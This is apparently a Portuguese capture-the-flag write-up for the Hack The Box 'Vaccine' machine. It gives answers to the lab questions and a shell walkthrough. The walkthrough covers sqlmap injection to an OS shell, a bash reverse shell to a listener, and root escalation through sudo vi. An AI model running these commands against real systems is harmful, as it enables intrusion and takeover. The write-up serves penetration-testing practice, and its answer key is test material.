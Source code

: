 # Vaccine.md

#### Tags 
`Linux` `FTP` `SQL` `SUID`

## Questões 
1. **Além de SSH e HTTP, que outro serviço está hospedado nesta caixa?**
*R:* `ftp`

2. **Este serviço pode ser configurado para permitir o login com qualquer senha para um nome de usuário específico. Qual é esse nome de usuário?**
*R:* `anonymous`

3. **Qual é o nome do arquivo baixado por meio deste serviço?**
*R:* `backup.zip`

4. **Que script vem com o conjunto de ferramentas John The Ripper e gera um hash de um arquivo zip protegido por senha em um formato para permitir tentativas de cracking?**
*R:* `zip2john`

5. **Qual é a senha para o usuário administrador no site?**
*R:* `qwerty789`

6. **Qual opção pode ser passada para o sqlmap para tentar obter a execução do comando por meio da injeção de sql?**
*R:* `--os-shell`

7. **Que programa o usuário do postgres pode executar como root usando o sudo?**
*R:* `vi`


## **Envie a flag user e root**
*Write-up:*
~~~Shell
 **Flag user:**
 sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie='PHPSESSID=ojq8sk0069d5h4uq96qr93c063' --os-shell
 nc -lvnp 4444
 bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'
 find / -type f -name user.txt 2>/dev/null
   /var/lib/postgresql/user.txt
    cat /var/lib/postgresql/user.txt
    HTB{∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎}
 **Flag Root**
     SHELL=/bin/bash script -q /dev/null
     sudo -l
     sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
     Agora em `vi`, use o comando `:!/bin/bash`para abrir um shell como root:
      cat /root/root.txt
      HTB{∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎}
~~~
